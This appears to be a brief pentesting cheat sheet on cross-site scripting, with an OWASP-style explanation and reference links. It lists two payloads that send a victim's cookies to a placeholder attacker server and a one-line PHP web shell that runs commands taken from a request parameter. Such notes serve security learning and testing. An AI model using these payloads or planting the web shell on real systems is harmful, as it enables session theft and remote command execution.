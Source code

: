 # XSS - Cross Site Scripting

## Overview

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

## Description

Cross-Site Scripting (XSS) attacks occur when:

Data enters a Web application through an untrusted source, most frequently a web request.
The data is included in dynamic content that is sent to a web user without being validated for malicious content.

## Common Payloads

	<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
	<img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>

## php payloads

	if isset($_REQUEST['cmd']){
		system($_REQUEST['cmd']);
	}
	then we pass the cmd arg in the request:
	<url>?cmd=whoami


## Relevant Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/attacks/xss/

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting